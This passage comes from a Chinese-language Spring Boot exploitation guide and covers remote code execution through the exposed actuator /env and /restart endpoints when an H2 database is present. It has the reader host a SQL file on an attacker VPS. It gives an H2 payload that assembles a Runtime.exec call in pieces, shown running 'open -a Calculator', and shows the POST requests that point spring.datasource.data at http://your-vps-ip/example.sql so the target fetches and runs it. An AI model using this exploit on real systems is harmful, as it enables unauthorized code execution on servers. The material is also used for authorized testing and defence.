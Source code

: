 [repository/springboot-restart-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-restart-rce)

正常访问：

```php
http://127.0.0.1:9098/actuator/env
```

### 0x0C：restart spring.datasource.data h2 database RCE

#### 利用条件：

- 可以 POST 请求目标网站的 `/env` 接口设置属性
- 可以 POST 请求目标网站的 `/restart` 接口重启应用
- 环境中需要存在 `h2database`、`spring-boot-starter-data-jpa` 相关依赖
- 目标可以请求攻击者的 HTTP 服务器（请求可出外网），否则 restart 会导致程序异常退出
- HTTP 服务器如果返回含有畸形 h2 sql 语法内容的文件，会导致程序异常退出

#### 利用方法：

##### 步骤一：托管 sql 文件

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP 服务端口（80、443）

```php
# 使用 python 快速开启 http server

python2 -m SimpleHTTPServer 80
python3 -m http.server 80
```

在根目录放置以任意名字的文件，内容为需要执行的 h2 sql 代码，比如：

> 下面payload 中的 'T5' 方法只能 restart 执行一次；后面 restart 需要更换新的方法名称 (如 T6) 和设置新的 sql URL 地址，然后才能被 restart 重新使用，否则第二次 restart 重启应用时会导致程序异常退出

```php
CREATE ALIAS T5 AS CONCAT('void ex(String m1,String m2,String m3)throws Exception{Runti','me.getRun','time().exe','c(new String[]{m1,m2,m3});}');CALL T5('/bin/bash','-c','open -a Calculator');
```

##### 步骤二：设置 spring.datasource.data 属性

spring 1.x

```php
POST /env
Content-Type: application/x-www-form-urlencoded

spring.datasource.data=http://your-vps-ip/example.sql
```

spring 2.x

```php
POST /actuator/env
Content-Type: application/json

{"name":"spring.datasource.data","value":"http://your-vps-ip/example.sql"}
```
